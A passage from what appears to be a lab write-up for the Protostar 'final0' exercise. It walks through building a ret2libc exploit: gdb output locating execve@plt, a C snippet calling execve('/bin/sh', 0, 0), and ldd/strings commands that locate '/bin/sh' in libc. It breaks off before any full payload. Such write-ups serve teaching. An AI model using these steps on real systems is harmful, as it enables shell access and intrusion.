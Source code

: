 That's because our program has **no signal handler** for crashes. In `gdb`, we can see it triggers **SIGSEGV (Segmentation Fault)**. Since there's no handler, the kernel **immediately kills the process**, stopping any output before it appears.

Now, let's use the **ret2libc** technique!

First, we need to find the function to execute. In this case, `execve()` will be my choice!

```shell
(gdb) info functions @plt
All functions matching regular expression "@plt":
...
0x08048c0c  execve@plt
...
(gdb) disassemble 0x08048c0c
Dump of assembler code for function execve@plt:
0x08048c0c <execve@plt+0>:      jmp    *0x804ae0c
0x08048c12 <execve@plt+6>:      push   $0x108
0x08048c17 <execve@plt+11>:     jmp    0x80489ec
End of assembler dump.
(gdb) x/wx 0x804ae0c
0x804ae0c <_GLOBAL_OFFSET_TABLE_+144>:  0x08048c12
```

From the `execve()` man page, we see it requires **three parameters**:

![execve-man-page](public/image/protostar-final/execve.png)

So, we'll craft our exploit to overwrite the stack just like this simple C program:

```c
void main() {
    execve("/bin/sh", 0, 0);                                                         
    // int execve(const char *filename, char *const argv[], char *const envp[]);     
    // no arguments and environment variables
}    
```

Here's what the **stack layout** would look like:

![execve-stack](public/image/protostar-final/execve-stack.png)

Now that we understand the stack layout, let's find the address of **"/bin/sh"** in **libc**.

To do this, we need to calculate its address using:
$$
libc base address + offset of /bin/sh
$$

Find the offset of **"bin/sh"**:

```shell
root@protostar:/home/user# ldd /opt/protostar/bin/final0
        linux-gate.so.1 =>  (0xb7fe4000)
        libc.so.6 => /lib/libc.so.6 (0xb7e99000)
        /lib/ld-linux.so.2 (0xb7fe5000)
root@protostar:/home/user# strings -a -t x /lib/libc.so.6 | grep "/bin/sh"
 11f3bf /bin/sh
```
